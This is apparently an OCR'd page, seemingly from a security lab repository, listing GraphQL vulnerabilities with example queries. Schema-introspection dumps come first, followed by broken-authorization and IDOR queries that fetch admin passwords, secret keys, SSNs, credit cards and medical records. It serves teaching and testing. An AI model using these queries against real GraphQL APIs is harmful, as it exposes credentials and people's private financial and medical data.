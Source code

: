 ```graphql
```

## Vulnerabilities

### 1. Introspection Enabled in Production
```graphql
# Dump entire schema
{
  __schema {
    types {
      name
      fields {
        name
        type {
          name
        }
      }
    }
  }
}

# Get all queries
{
  __schema {
    queryType {
      fields {
        name
        description
        args {
          name
          type {
            name
          }
        }
      }
    }
  }
}
```

### 2. Broken Authorization
```graphql
# Access admin data as regular user
query {
  adminUsers {
    id
    username
    password  # Exposed!
    secretKey
  }
}

# IDOR - Access other users' private data
query {
  userPrivateData(userId: 2) {
    ssn
    creditCard
    medicalRecords
  }
}
```
